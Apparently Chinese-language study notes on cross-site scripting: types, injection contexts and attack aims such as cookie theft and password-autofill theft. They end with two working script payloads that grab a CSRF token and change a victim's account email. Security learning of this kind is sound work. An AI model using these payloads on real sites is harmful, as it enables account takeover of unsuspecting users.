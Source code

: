 >定义：将用户的请求中含有的参数直接渲染到页面中不做任何处理

**存储型XSS store**

>定义：将用户的输入存储到服务器中，该输入会渲染到页面中被浏览的其他用户所看到

**DOM型XSS dom**

>定义：操控用户输入，使得页面中某个html节点发生改变，常与innerHTML关联

**XSS注入的环境**

1. 在标签之间，文本的上下文.            直接添加标签
2. 在标签内的属性里                           用引号逃逸
3. 在javascript源码里                        用引号逃逸或者在模版字符串直接使用${}

**反射型/存储型XSS 攻击方式**

1. 利用javascript读取cookie发送到恶意网站，post或get也可以用img等标签绕过跨域请求(httponly)

2. 利用密码自动填充来窃取密码（实测有点鸡肋，除非用户自己点击才可以触发）设置input name=username name=password type=password

3. 结合csrf模拟用户修改邮箱啥的（！！！尤其注意async和await的变量作用域问题一定要拆分完整）

```html
<script>
var csrf=""
async function f()
{

var Response=await fetch(
'/my-account',
{
method:'GET',
credentials:'same-origin'
}
)

await Response.text().then(text=>{csrf=text.match(/name="csrf" value="(\w+)"/)[1]})

await fetch(
'/my-account/change-email',
{
method:'POST',
credentials:'same-origin',
headers:{
'Content-Type':'application/x-www-form-urlencoded',
},
body:'csrf='+csrf+'&email=kkk@test.com'
}
)

}

f()

</script>
or
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
```